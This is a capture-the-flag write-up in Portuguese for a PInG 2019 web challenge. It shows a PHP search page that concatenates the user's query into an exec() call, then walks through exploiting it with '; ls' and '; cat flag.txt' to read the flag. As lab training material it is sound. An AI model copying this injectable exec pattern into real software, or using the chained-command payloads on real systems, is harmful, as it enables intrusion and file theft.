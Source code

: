 ## Chall 05 - Sopa de Letrinhas (PInG 2019)
#### Alex:
**Flag:** `Ganesh{fL46_!5N7_iN_Dic7}`  

Ao entrar na página fiz alguns testes e percebi que provavelmente tinha um banco de palavras. Tentei achar a flag enviando um "Ganesh" como busca, para ver se retornava algo, mas não retornou nada. Então a flag devia estar escondida em algum outro lugar.

Abri então o código fonte e vi que possuía o código fonte do php, que basicamente recebia o que estava na query e enviava um comando para o shell executar.

```php
$query = trim($_GET["q"]);
$results = [ ];

if(!empty($query)) {
    exec("cat list.txt | grep " . $query, $results);
}
```

Então comecei tentando ver os arquivos que o diretório possuia por meio do ls, mandando a seguinte query: `; ls`. O `;` é para quebrar o comando anterior, que é o `grep` do `cat` da `list.txt`.

Então a página me retornou o seguinte:

```
3 resultados encontrados:

flag.txt
index.php
list.txt
```

Ao dar um `cat` da `flag.txt` (`; cat flag.txt`) a página me retornou:

```
1 resultados encontrados:

Ganesh{fL46_!5N7_iN_Dic7}
```

